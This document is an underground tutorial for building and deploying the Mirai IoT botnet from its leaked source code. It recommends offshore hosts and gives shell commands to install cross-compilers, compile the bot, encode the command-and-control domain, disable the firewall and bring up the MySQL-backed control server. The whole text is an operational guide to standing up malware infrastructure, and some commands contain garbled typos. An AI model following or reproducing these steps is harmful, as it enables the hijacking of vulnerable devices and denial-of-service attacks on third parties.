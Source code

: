 [#] Mirai Tutorial [#]

@   _____  ._____________    _____  .___ @
@  /     \ |   \______   \  /  _  \ |   |@
@ /  \ /  \|   ||       _/ /  /_\  \|   |@
@/    Y    \   ||    |   \/    |    \   |@
@\____|__  /___||____|_  /\____|__  /___|@
@        \/            \/         \/     @
By: Jihadi4Potus/Jihadi4Prez
qTox: Jihadi@toxme.io
youtube video: https://www.youtube.com/watch?v=G4vUp3ydjs0

* REQUIREMENTS *
- 2x Debian 8 Offshore boxes - Providers. [x0]
- Mirai Source - https://github.com/jgamblin/Mirai-Source-Code git clone https://github.com/jgamblin/Mirai-Source-Code
- Good Instruction following skillz.

[x0] -Hosting Providers.
https://www.nforce.com/
http://ampnode.com/vps.html
http://www.novogara.com/
https://www.dataclub.biz/ (Accepts Everything but Paypal.)

;This is a fully tutorial how to setup mirai from scratch. ENJOY :)
;This fixes golang errors when ./build debug telnet , is executed.

	-Step One; Install the following on a Debian box. ex. Debian 7 x86_64-
 apt-get update -y
 apt-get upgrade -y
 apt-get install gcc golang electric-fence sudo git -y
 apt-get install mysql-server mysql-client -y

	-Step Two; Installing and compiling the cross-compilers-
;If you run build.sh in /mirai folder you will get an error for armv6l, In the main tutorial this wasn't included so I added it to make life easier.

 mkdir /etc/xcompile
 cd /etc/xcompile
 
 wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-armv4l.tar.bz2
 wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-i586.tar.bz2
 wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-m68k.tar.bz2
 wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-mips.tar.bz2
 wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-mipsel.tar.bz2
 wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-powerpc.tar.bz2
 wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-sh4.tar.bz2
 wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-sparc.tar.bz2
 wget http://distro.ibiblio.org/slitaz/sources/packages/c/cross-compiler-armv6l.tar.bz2
 
 tar -jxf cross-compiler-armv4l.tar.bz2
 tar -jxf cross-compiler-i586.tar.bz2
 tar -jxf cross-compiler-m68k.tar.bz2
 tar -jxf cross-compiler-mips.tar.bz2
 tar -jxf cross-compiler-mipsel.tar.bz2
 tar -jxf cross-compiler-powerpc.tar.bz2
 tar -jxf cross-compiler-sh4.tar.bz2
 tar -jxf cross-compiler-sparc.tar.bz2
 tar -jxf cross-compiler-armv6l.tar.bz2
 
 rm *.tar.bz2
 mv cross-compiler-armv4l armv4l
 mv cross-compiler-i586 i586
 mv cross-compiler-m68k m68k
 mv cross-compiler-mips mips
 mv cross-compiler-mipsel mipsel
 mv cross-compiler-powerpc powerpc
 mv cross-compiler-sh4 sh4
 mv cross-compiler-sparc sparc
 mv cross-compiler-armv6l armv6l
	
	-Step Three-
;Execute these in your ssh terminal, this will add to your ~/.bashrc
export PATH=$PATH:/etc/xcompile/armv4l/bin
export PATH=$PATH:/etc/xcompile/armv6l/bin
export PATH=$PATH:/etc/xcompile/i586/bin
export PATH=$PATH:/etc/xcompile/m68k/bin
export PATH=$PATH:/etc/xcompile/mips/bin
export PATH=$PATH:/etc/xcompile/mipsel/bin
export PATH=$PATH:/etc/xcompile/powerpc/bin
export PATH=$PATH:/etc/xcompile/powerpc-440fp/bin
export PATH=$PATH:/etc/xcompile/sh4/bin
export PATH=$PATH:/etc/xcompile/sparc/bin
export PATH=$PATH:/etc/xcompile/armv6l/bin

export PATH=$PATH:/usr/local/go/bin
export GOPATH=$HOME/Documents/go

	-Step Four-
./build.sh debug telnet
;Once you execute this in the main mirai directory ./Mirai-Source-Code/mirai, If you did this command before step 2 & 3 you would get an error about the Mysql and sql-drivers, since that's what alot of people have had trouble with. This fixes that.
 go get github.com/go-sql-driver/mysql
 go get github.com/mattn/go-shellwords


	-Step Five; obfuscated string-
;I'm running Debian 8 x86_64 so this might be diffrent for you, but the ./debug/enc string {Domain.com} wasn't working for me so the fix is below, make sure you're in /mirai/debug
 ./enc string changeme.com
;Now add this to your table.c file.



	-Step Six; Database setup-
;Now where going to setup the database permissions and users.
;If you have iptbales/ip6tables or any firewall install disable it.

service iptables stop
/etc/ini.d/iptbales stop

;Database setup
/usr/bin/mysql_secure_installation
;It will ask you to set a password, make sure you remember this.
;Edit your main.go in /cnc/
ex: 120.0.0.1:3306
;Once you've done the step above were going to add the database and user perms. follow this link.
;Create the database first
create database mirai;
;Next select the database
use mirai
;Copy and paste this into your terminal. (Not the pastebin link, the actual code on the site.)
http://pastebin.com/BsSWnK7i
;Set the credentials you used in the ./cnc/main.go file. It should look like this- http://prntscr.com/dnskj5
;Now your server should be online
Service mysql restart
;Once you restart the mysql server, go to your debug folder ./mirai/release you will seen a compiled file named cnc execute it.
./cnc
;You should see - http://prntscr.com/dnsluv
;Now your going to have to move the prompt.txt file in mirai main directory into the release folder 
;Now you can login through your ssh client with telnet.


Congrats you setup mirai successfully!!
